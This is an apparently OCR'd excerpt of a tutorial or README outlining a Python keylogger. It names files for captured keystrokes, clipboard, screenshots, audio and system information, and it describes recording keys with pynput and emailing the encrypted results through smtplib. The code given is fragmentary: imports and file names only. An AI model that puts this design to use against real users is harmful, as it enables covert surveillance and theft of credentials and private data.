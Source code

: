 ## proper extensions.

system_information = **"system.txt"**
audio_information = **"audio.wav"**
clipboard_information = **"clipboard.txt"**
screenshot_information = **"screenshot.png"**
keys_information = **"key_log.txt"**

We will also need 3 addition files for encryption, I simply used the e_file_name syntax for each file.

system_information_e = **'e_system.txt'**
clipboard_information_e = **'e_clipboard.txt'**
keys_information_e = **'e_keys_logged.txt'**

To open and append to files, use the with **_open(file_path, “a”) as f_** :

To write to the file, simply use the **_f.write(data)_** method

# LOGGING KEYS

## To log keys using python, we will be using the pynput module.

Module to install:

**from** pynput.keyboard **import** Key, Listener

Key Ideas with pynput:

- pynput has multiple functions including on_press, write_file, and on_release
- to understand pynput, follow this tutorial: https://www.youtube.com/watch?v=TbMKwl11itQ

# EMAIL

## To add an email functionality, we will be using the email module.

Modules to install:

**from** email.mime.multipart **import** MIMEMultipart
**from** email.mime.text **import** MIMEText
**from** email.mime.base **import** MIMEBase
**from** email **import** encoders
**import** smtplib

Key Ideas with email:

- To send with email, follow this tutorial: https://www.geeksforgeeks.org/send-mail-attachment-gmail-
    account-using-python/?ref=lbp

